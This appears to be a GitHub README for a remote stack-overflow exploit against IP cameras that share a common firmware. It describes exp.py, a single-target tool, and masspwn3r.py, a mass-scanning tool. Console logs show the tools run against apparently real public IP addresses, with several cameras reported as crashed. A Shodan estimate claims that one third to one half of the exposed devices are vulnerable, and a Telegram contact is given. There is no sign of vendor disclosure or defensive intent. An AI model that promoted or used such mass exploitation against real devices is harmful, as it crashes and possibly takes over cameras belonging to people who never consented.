 # Multiple ip-cameras remote stack overflow
Stack overflow through authorization request in the system. Code execution is possible. This vulnerability is present in many camera manufacturers that use this firmware. Perhaps the vulnerability was found before me, but I have not heard anything about this vulnerability

# Usage exp.py:
```
root@kali:~/ipcam-overflow# python3 exp.py 177.139.57.124 8181
[*]Stack overflow in ip-cameras xD
[i]Exploit created and tested by @NotEth1calHack3r

[i]Checking: 177.139.57.124
[✓]Online!
[=]Connecting
[>]Sending payload
[✓]Crashed :/
```

# Usage masspwn3r.py:
```
root@kali:~/ipcam-overflow# python3 masspwn3r.py list.txt 8081
[*]Mass stack overflow in ip-cameras :0
[i]Exploit created and tested by @NotEth1calHack3r

[×]Offline 115.22.84.200
[×]Offline 121.141.117.218
[i]Not vulnerable 96.232.177.2
[i]Not vulnerable 121.121.80.6
[i]Not vulnerable 121.121.80.6
[✓]Crashed 177.188.38.102
[✓]Crashed 177.180.202.171
[×]Offline 211.194.40.166
[×]Offline 59.31.186.119
[i]Not vulnerable 68.107.121.55
[✓]Crashed 191.13.13.214
```

# Demo:

![alt text](https://raw.githubusercontent.com/NotEth1calHack3r/ipcam-mass_overflow/master/Screencast_12-01-2019_05_27_05%20PM.gif)

# Shodan result:
![alt text](https://raw.githubusercontent.com/NotEth1calHack3r/ipcam-mass_overflow/master/157521038127974614.png)
1/3 or 1/2 vulnerable

# Contacts:
Telegram:```@eth_hacker0x18```
